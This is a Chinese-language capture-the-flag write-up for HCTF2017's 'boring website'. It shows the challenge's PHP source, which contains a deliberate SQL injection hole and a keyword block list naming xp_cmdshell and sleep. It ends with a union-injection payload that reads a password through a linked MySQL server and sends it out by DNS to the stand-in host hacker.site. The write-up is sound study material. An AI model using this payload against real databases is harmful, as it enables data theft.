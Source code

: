 # HCTF2017-boring-website


首先扫目录发现有www.zip,下载并打开发现是源码

```php
<?php
echo "Bob received a mission to write a login system on someone else's serve
r, and he he only finished half of the work<br />";
echo "flag is hctf{what you get}<br /><br />";
error_reporting(E_ALL^E_NOTICE^E_WARNING);
try {
$conn = new PDO( "sqlsrv:Server=*****;Database=not_here","oob", "");
}
catch( PDOException $e ) {
die( "Error connecting to SQL Server".$e->getMessage() );
}
#echo "Connected to MySQL<br />";
echo "Connected to SQL Server<br />";
$id = $_GET['id'];
if(preg_match('/EXEC|xp_cmdshell|sp_configure|xp_reg(.*)|CREATE|DROP|declare
|if|insert|into|outfile|dumpfile|sleep|wait|benchmark/i', $id)) {
die('NoNoNo');
}
$query = "select message from not_here_too where id = $id"; //link server: O
n linkname:mysql
$stmt = $conn->query( $query );
if ( @$row = $stmt->fetch( PDO::FETCH_ASSOC ) ){
//TO DO: ...
//It's time to sleep...
}
?>

```
发现应该是`sql server`用`linkserver`来连接`mysql`。所以去查了一波`linkserver`的用法，以及结合注释可得`select * from openquery(mysql,'select xxx')`可以从mysql数据库中查得信息，但是没有回显，sleep函数也被ban了，然后看到`oob`的提示，去查了一波`mysql out-of-band`，发现`load_file`函数可以通过dns通道把所查得的数据带出来。接下来的过程就是十分常见简单的mysql注入的流程。
最终的payload: `/?id=1 union select * from openquery(mysql,'select load_file(concat("\\\\",(select password from secret),".hacker.site\\a.txt"))')`

dnslog 平台可以自己搭也可以用ceye

